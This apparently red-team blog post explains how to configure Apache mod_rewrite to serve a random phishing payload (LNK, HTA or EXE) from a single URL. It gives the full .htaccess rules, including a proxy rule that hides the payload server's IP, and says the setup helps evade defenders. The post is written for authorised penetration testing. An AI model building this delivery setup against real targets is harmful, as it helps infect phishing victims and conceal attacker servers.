 ```yaml
---
layout: post
title: Serving Random Payloads with Apache mod_rewrite
tags:
- mod_rewrite
- phishing
- red team infrastructure
image: /assets/mod_rewrite-random-payloads/diagram.png
commentIssueId: 24
---
```


As testers, we sometimes need some good, old-fashioned trial and error to get things working. Phishing is one of the attacks that commonly takes more than one attempt to get payloads and command and control (C2) working properly. This post covers how to help effectively perform payload trial and error by randomly serving payloads from one URL with Apache mod_rewrite.

The technique described in this post lends itself more to a penetration test, where email phishing batches may span an entire target company, rather than a red team assessment, where email phishing is highly targeted and payload issues are painstakingly troubleshot manually. Following the steps below, we can configure an Apache redirector, or server directly, to serve a random payload from a predefined list of possible payloads with the [RewriteMap - randomized plain text](http://httpd.apache.org/docs/current/rewrite/rewritemap.html#rnd) functionality of Apache.

Apache's RewriteMap function allows external programs, such as scripts, databases, or text files to remap requests for Apache to serve. The example commonly used in the official documentation is if a store changes from a URL structure of *item-1234* to *iPhone-7-white*, the web administrators could use Apache to serve up *iPhone-7-white* when *item-1234* is requested without having to change any hard coded links. RewriteMap provides a bulk method of translating these resource modifications. We will use RewriteMap to pull a random payload URI from a text file and return a 302 (temporary) redirection to cause the target to request the randomized payload file.

Here is a diagram of our attack workflow:

{% include image.html file="/assets/mod_rewrite-random-payloads/diagram.png" description="Random Payload Serving Diagram" %}

# Setup

Apache requires a few configuration changes to support mod_rewrite and RewriteMap. These are explained in detail under the first time setup section of my previous post [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/). In short, modify the Apache configuration file, which is `/etc/apache2/apache2.conf` by default on most Debian-based distros, to allow htaccess rewriting by changing the following snippet to read **All** instead of **None**:

```bash
<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
</Directory>
```

If the web root of your redirector is a directory other than the default `/var/www/`, you will need to modify the corresponding Directory Context's *AllowOverride* setting.


Within the [server context](http://httpd.apache.org/docs/current/mod/directive-dict.html#Context) (such as the bottom) of the configuration file, we need to add the following text:

```bash
RewriteMap payloads "rnd:/var/www/payloads.txt"
```

This tells mod_rewrite that when we call the *payloads* variable with RewriteMap, pull entries from the path `/var/www/payloads.txt`. This file must be readable by Apache and should be stored outside the web root, which is `/var/www/html` in this example.

Create a file at `/var/www/payloads.txt` and enter the following text:

```bash
windows payload.lnk|payload.hta|payload.exe
```

In this example, *windows* is our key and *payload.lnk*, *payload.hta*, and *payload.exe* are our values. When RewriteMap is called on the payloads file and provided the *windows* key, a random value from the pipe separated list is returned. We can add a value multiple times to increase its likelihood of being returned. This file can be updated on the fly without needing to restart *apache2*. If you determine a certain payload doesn't work or stand up a new payload, you can freely modify the *payloads.txt* file.

Enable the needed mod_rewrite modules and restart *apache2* by running the following command as root:

```bash
a2enmod rewrite proxy proxy_http && service apache2 restart
```

The final configuration step is to set up our *htaccess* file. Create the file `/var/www/html/.htaccess` and place the following text within it:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/payload</span><span style="color: mediumpurple">/?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/${payloads:windows}</span> <span style="color: tomato">[L,R=302]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/payload\.(exe|lnk|hta)</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://192.168.188.134</span><span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: tomato">[P]</span>
</div>

Here's a line-by-line breakdown of that ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine
<span style="color: dodgerblue">If the request’s URI</span> <span style="color: mediumseagreen">starts with ‘payload’</span> <span style="color: mediumpurple"> with an optional trailing slash at the end of the URI,</span><br>
<span style="color: gold">rewrite the entire request</span> <span style="color: orange">to a random value pulled from the RewriteMap file linked to "payloads" with the key "windows"</span> <span style="color: tomato">This is a temporary redirect and the last rule that should be evaluated/applied to the request.</span>
<span style="color: dodgerblue">If the request’s URI</span> <span style="color: mediumseagreen">starts with ‘payload’ and ends with the file extension exe, lnk, or hta,</span><br>
<span style="color: gold">rewrite the entire request</span> <span style="color: orange">to serve the </span><span style="color: dodgerblue"> request URI </span><span style="color: orange"> from IP 192.168.188.134 (the payload server IP), </span><span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span>
</div>

Now the server is fully configured. 

Here is a demo of the ruleset above randomly serving an executable file and then an HTML Application (HTA) file when a user visits `http://spoofdomain.com/payload` twice in a row:

{% include image.html file="/assets/mod_rewrite-random-payloads/demo.gif" description="Random Payload Serving Demo" %}

# Summary

Apache mod_rewrite provides pentesters and red teamers with a [wealth of options](https://bluescreenofjeff.com/tags#mod_rewrite) to strengthen their attack infrastructure and phishing campaigns. Techniques can be combined for greater effect to help gain more valuable information from the clicks you receive and help evade blue team detection and response. Randomly serving payloads to phishing targets can increase the likelihood of finding a payload that works on target and minimizes the risk of wasting valuable clicks.


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)
* [Red Team Infrastructure Wiki](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki)
